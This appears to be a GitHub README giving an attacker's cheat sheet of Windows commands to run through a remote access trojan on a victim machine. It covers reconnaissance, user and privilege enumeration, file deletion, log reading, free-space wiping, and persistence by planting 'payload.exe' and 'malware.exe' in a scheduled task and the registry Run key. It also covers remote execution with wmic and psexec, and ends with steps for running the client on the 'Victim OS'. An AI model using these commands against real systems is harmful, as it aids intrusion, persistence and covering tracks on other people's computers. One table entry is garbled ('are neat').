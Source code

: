 # List of useful commands for attacker (Windows) using Remote Access Trojan (RAT)

### 1. Basic System Information

| Command        | Description           
| ------------- |:-------------:| 
| systeminfo      | Lists OS, hardware, and patch details | 
| hostname      | 	Shows the computer name      |  
| whoami        |   Displays current user |
| wmic csproduct get name | are neat      |   



### 2. Network Diagnostics

| Command        | Description           
| ------------- |:-------------:| 
| ipconfig /all      | Shows full network configuration | 
| netstat -ano      | 	Lists all active connections and portse      |  
| ping google.com        |   Tests internet connectivity |
| tracert 8.8.8.8 | 	Traces network route to a host      |   


### 3.  User & Permission Management

| Command        | Description           
| ------------- |:-------------:| 
| net user      | Lists all user accounts | 
| net localgroup administrators      | 	Shows admin users      |  
| whoami /priv        |   	Checks current user privileges |


### 4. File System Operations

| Command        | Description           
| ------------- |:-------------:| 
| dir C:\      | Lists files in a directory | 
| type C:\file.txt      | 	Views file contents      |  
| del /s C:\temp\file.txt        |   	Deletes a file |
| copy C:\file.txt C:\backup\        |   	Copies files |



### 5. Process & Service Control
| Command	| Description |
| ------------- |:-------------:| 
| tasklist |	Lists running processes |
| taskkill /IM notepad.exe /F |	Force-closes a process |
| sc query |	Lists all Windows services |
| net start |	Shows running services |



### 6. 6. Security & Logs

| Command        | Description           
| ------------- |:-------------:| 
| wevtutil qe Security /rd:true /f:text |	Reads security event logs |
| auditpol /get /category:*	| Checks audit policies |
| cipher /w:C:\ | 	Securely wipes free space |


### 7. Persistence (For Ethical Testing)
| Command        | Description           
| ------------- |:-------------:| 
| schtasks /create /tn "TaskName" /tr "C:\payload.exe" /sc hourly	 | Creates a scheduled task |
| reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v "MyApp" /t REG_SZ /d "C:\malware.exe"	| Adds to startup (registry) |



### 8. Remote Administration (Admin Rights Required)

| Command        | Description           
| ------------- |:-------------:| 
| shutdown /r /t 60 /c "Restarting for updates" |	Reboots the system |
| wmic /node:"CLIENT_IP" process call create "cmd.exe"	| Runs commands remotely (WMIC) |
| psexec \\CLIENT_IP -u USER -p PASS cmd.exe	| Remote shell (PsExec from Sysinternals) |









---

Important:

In Visual Studio Code terminal,
1. Run the client.py (Client OS / Victim OS) 
2. Run the server.py (Server / Attacker OS)
3. Do the `ist of useful commands for attacker (Windows) using Remote Access Trojan (RAT)` in `server.py`  terminal:

![image](https://github.com/user-attachments/assets/61be0116-a17a-4739-ae48-9feed7196263)













